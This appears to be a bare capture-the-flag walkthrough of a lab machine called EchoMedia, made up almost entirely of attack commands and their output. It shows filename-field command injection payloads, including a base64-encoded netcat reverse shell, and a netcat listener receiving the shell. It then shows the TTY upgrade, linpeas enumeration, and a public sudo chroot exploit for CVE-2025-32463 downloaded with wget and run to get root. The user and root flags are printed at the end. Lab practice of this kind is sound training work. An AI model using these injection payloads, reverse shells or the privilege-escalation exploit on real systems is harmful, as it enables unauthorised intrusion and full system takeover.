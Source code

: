 filename="video.mp4"


busybox

====================================================================================================================================================================================
filename='video.mp4";whoami;0"'



filename="video.mp4; echo bmMgMTAuMC4yNTAuNSA0NDQ0IC1lIC9iaW4vc2gK | base64 -d | sh; echo .jpg"
busybox







https://github.com/kirang89/Pyworks/blob/master/ip2num.py





====================================================================================================================================================================================



filename='video.mp4";busybox nc 167836165 4444 -e bash;0"'






┌──(kali㉿kali)-[~/Documents/echoMedia]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.0.250.5] from (UNKNOWN) [10.0.250.12] 38268
history
ls
index.php
upload





====================================================================================================================================================================================






/usr/bin/script -qc /bin/bash /dev/null


crtl + Z
    www-data@TheHackersLabs-EchoMedia:/var/www/html/upload$ ^Z
    zsh: suspended  nc -lvnp 4444


stty raw -echo;fg


    [1]  + continued  nc -lvnp 4444
                                reset

    reset: unknown terminal type unknown
    Terminal type? xterm




stty rows 30 columns 113
export TERM=xterm







====================================================================================================================================================================================


www-data@TheHackersLabs-EchoMedia:/tmp$ ls
linpeas.sh
www-data@TheHackersLabs-EchoMedia:/tmp$ ./linpeas.sh






╔══════════╣ Sudo version
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#sudo-version                                              
Sudo version 1.9.17    





====================================================================================================================================================================================


https://github.com/pr0v3rbs/CVE-2025-32463_chwoot







──(kali㉿kali)-[~/Documents/echoMedia/CVE-2025-32463_chwoot]
└─$ ls              
Dockerfile  LICENSE  README.md  run.sh  sudo-chwoot.sh
                                                                                                                                            
┌──(kali㉿kali)-[~/Documents/echoMedia/CVE-2025-32463_chwoot]
└─$ python3 -m http.server 
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.0.250.12 - - [22/Sep/2025 17:03:45] "GET /run.sh HTTP/1.1" 200 -
10.0.250.12 - - [22/Sep/2025 17:05:01] "GET /sudo-chwoot.sh HTTP/1.1" 200 -
^C
Keyboard interrupt received, exiting.
                                                                                                                                            

====================================================================================================================================================================================
www-data@TheHackersLabs-EchoMedia:/tmp$ wget http://10.0.250.5:8000/sudo-chwoot.sh
--2025-09-22 15:05:00--  http://10.0.250.5:8000/sudo-chwoot.sh
Connecting to 10.0.250.5:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1046 (1.0K) [text/x-sh]
Saving to: 'sudo-chwoot.sh'

sudo-chwoot.sh               100%[===========================================>]   1.02K  --.-KB/s    in 0s      




www-data@TheHackersLabs-EchoMedia:/tmp$ chmod +x sudo-chwoot.sh 

www-data@TheHackersLabs-EchoMedia:/tmp$ ./sudo-chwoot.sh id
woot!
uid=0(root) gid=0(root) groups=0(root),33(www-data)




www-data@TheHackersLabs-EchoMedia:/tmp$ ./sudo-chwoot.sh   
woot!




root@TheHackersLabs-EchoMedia:/# ls
bin   dev  home        initrd.img.old  lib64       media  opt   root  sbin  sys  usr  vmlinuz
boot  etc  initrd.img  lib             lost+found  mnt    proc  run   srv   tmp  var  vmlinuz.old
root@TheHackersLabs-EchoMedia:/# whoami 
root



====================================================================================================================================================================================





root@TheHackersLabs-EchoMedia:/# cd /home/Dr_Simi/
root@TheHackersLabs-EchoMedia:/home/Dr_Simi# ls
user.txt



root@TheHackersLabs-EchoMedia:/home/Dr_Simi# cat user.txt 
YjQwcWliRTZFMmVPUkV1c08zM3FHUzVv


====================================================================================================================================================================================


root@TheHackersLabs-EchoMedia:/home/Dr_Simi# cd /root/
root@TheHackersLabs-EchoMedia:/root# ls
root.txt

root@TheHackersLabs-EchoMedia:/root# cat root.txt 
SjI5cXhQVHowNkdia1Z2MnNQWlQyR1N5

root@TheHackersLabs-EchoMedia:/root# cat /etc/sudo
